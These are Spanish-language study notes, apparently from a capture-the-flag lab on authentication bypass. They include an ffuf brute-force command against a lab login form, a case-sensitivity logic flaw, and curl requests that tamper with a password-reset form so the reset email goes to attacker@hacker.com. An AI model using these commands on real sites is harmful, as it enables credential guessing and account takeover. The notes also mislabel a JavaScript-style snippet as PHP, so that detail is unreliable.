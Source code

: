 Ahora usaremos el ataque por fuerza bruta. (Es lo mismo pero con un txt mas duro)

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.225.254/customers/login -fc 200
```

![image](https://github.com/user-attachments/assets/21c613f2-027b-4129-84b4-c2d15ca92372)

## LÓGICA POR DEFECTO

Aveces los procesos de autenticación tienen una lógica. Es cuando la tipica ruta logica en la aplicación se puede hacer un bypass, o manipularla. Esto existe en todas las webs

![image](https://github.com/user-attachments/assets/5d2a27f1-5888-4cae-971f-e088ef272d43)

### EJEMPLO

El código de bajo chekea que el usuario empieza desde una ruta exacta /admin 

```
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```

Porque el codigo PHP usa === esto hace para que sea el match exacto, incluyendo la misma letra. El codigo presenta una logica porque la unatenticación de usuario /adMin no te dara privilegios y la pagina se displayeara.

```
curl 'http://10.10.225.254/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```
En la aplicacion la cuenta del usuario le devuelve una consulta, pero luego el código tiene un $_Request

esta variable contiene los datos recibidos del POST. En la misma consulta el nombre del POST  simplemente cambiamos los POST para cambiar el email.

```
curl 'http://10.10.225.254/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```
![image](https://github.com/user-attachments/assets/f5ccf629-8821-4219-9b31-6c2efa6ec434)

## MANIPULACIÓN DE COOKIES

Examinando y editando las cookies podemos hacer que un servidor wb de una sesion online tenga diferentes resultados, pudiendo hacer un acceso no autenticado, o desde otro usuario o elevar privilegios.
